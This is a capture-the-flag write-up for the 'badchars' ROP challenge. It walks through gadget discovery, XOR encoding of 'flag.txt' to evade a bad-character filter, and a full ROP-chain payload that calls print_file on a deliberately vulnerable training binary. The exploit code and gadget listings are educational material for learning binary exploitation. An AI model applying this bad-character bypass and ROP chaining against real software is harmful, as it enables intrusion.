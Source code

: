 # badchars
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 64-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We write string to data section address:
```
readelf
...
.data = 0x601028 >>> dataSect = 0x601028 + 0x8
...
```
print_file function plt address:
```
plt 
Breakpoint 1 at 0x400510 (print_file@plt)
Breakpoint 2 at 0x400500 (pwnme@plt)
```
We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars
...
0x0000000000400634 : mov qword ptr [r13], r12 (gadget2); ret # write string to buffer
...
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 (gadget1); ret # pop value and address to registers
...
0x00000000004006a0 : pop r14 ; pop r15 (gadget5); ret # pop xor value and address to registers
...
0x00000000004006a3 : pop rdi (gadget3); ret # pop string address to argument register
...
0x0000000000400628 : xor byte ptr [r15], r14b (gadget4); ret # do byte xor operation to ptr [byte] address
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
# '`' ^ 1 = 'a'
# 'f' ^ 1 = 'g'
# '/' ^ 1 = '.'
# 'y' ^ 1 = 'x'
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Now, we can build our payload:

Firstly, write the xor string 'fl`f/tyt' to data section, then do byte xor operation to each byte to string, finally, pop the string address to rdi, and call print_file.

Same as before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop string 'fl`f/tyt' and data section address to r12 r13, and xor byte and data section byte address into r14 and r15.
```
p64(gadget1) + b'fl`f/tyt' + p64(dataSect) + p64(0x1) + p64(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p64(gadget2) + p64(gadget4)
```
Do xor operation to rest string byte 'g', '.', 'x'.
```
# 'f' ^ 1 = 'g'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+3) + p64(gadget4)
# '/' ^ 1 = '.'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+4) + p64(gadget4)
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Pop data section address to rdi.
```
p64(gadget3) + p64(dataSect)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```

